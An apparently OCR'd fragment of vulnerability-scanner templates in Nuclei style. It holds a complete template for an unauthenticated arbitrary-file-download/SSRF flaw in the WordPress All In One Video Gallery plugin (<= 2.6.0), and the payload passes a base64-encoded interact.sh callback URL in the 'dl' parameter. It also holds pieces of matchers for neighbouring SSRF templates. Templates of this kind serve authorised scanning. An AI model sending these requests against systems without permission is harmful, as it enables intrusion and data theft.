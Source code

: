 - part - interactsh_protocol
- words
  1. http

**Type - word**

- part - interactsh_request
- words
  1. ShibbolethIdp

---

# All In One Video Gallery Plugin - Unauthenticated Arbitrary File Download & SSRF vulnerability

## Description

- Unauthenticated Arbitrary File Download & SSRF vulnerability in WordPress All In One Video Gallery Plugin (versions <= 2.6.0).

- tags - cve2022,wp-plugin,unauth,ssrf,wpscan,cve,wordpress,wp,all-in-one-video-gallery

## Requests

### Step - 1

```
@timeout: 10s
GET /index.php/video/?dl={{base64('http://interact.sh/')}} HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. Interactsh Server

**Type - status**

- status
  1. 200

---

# Formcraft3 <3.8.28 - Server-Side Request Forgery

## Description
